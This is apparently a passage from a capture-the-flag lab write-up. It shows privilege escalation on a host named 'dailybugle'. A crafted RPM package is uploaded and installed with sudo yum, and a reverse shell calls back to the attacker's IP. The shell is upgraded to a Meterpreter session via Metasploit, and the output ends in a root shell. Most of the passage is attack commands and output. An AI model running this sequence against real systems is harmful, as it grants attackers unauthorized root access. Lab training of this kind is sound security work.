 ```bash
sftp> put exploited-1.0-1.noarch.rpm 
Uploading exploited-1.0-1.noarch.rpm to /home/jjameson/exploited-1.0-1.noarch.rpm
exploited-1.0-1.noarch.rpm
```

```bash
[jjameson@dailybugle ~]$ sudo yum localinstall -y exploited-1.0-1.noarch.rpm 
Loaded plugins: fastestmirror
```

It took quite a while to get through the yum plugins, yet eventially the session opened.

```bash
msf5 post(multi/manage/shell_to_meterpreter) > [*] Command shell session 3 opened (10.10.182.144:4444 -> 10.10.162.223:36016) at 2020-11-27 23:06:30 +0000

msf5 post(multi/manage/shell_to_meterpreter) > show options

Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST    10.10.182.144    no        IP of host that will receive the connection from the payload (Will try to auto detect).
   LPORT    4333             yes       Port for payload to connect to.
   SESSION  3                yes       The session to run this module on.

msf5 post(multi/manage/shell_to_meterpreter) > run

[*] Upgrading session ID: 3
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.10.182.144:4333 
[*] Sending stage (980808 bytes) to 10.10.162.223
[*] Meterpreter session 5 opened (10.10.182.144:4333 -> 10.10.162.223:35216) at 2020-11-27 23:08:04 +0000
[*] Command stager progress: 100.00% (773/773 bytes)
[*] Post module execution completed
msf5 post(multi/manage/shell_to_meterpreter) > sessions 4
[*] Starting interaction with 4...

msf5 post(multi/manage/shell_to_meterpreter) > sessions 4
[*] Starting interaction with 4...

meterpreter > getuid
Server username: no-user @ dailybugle (uid=0, gid=0, euid=0, egid=0)
meterpreter > shell
Process 4873 created.
Channel 1 created.
whoami
root
```
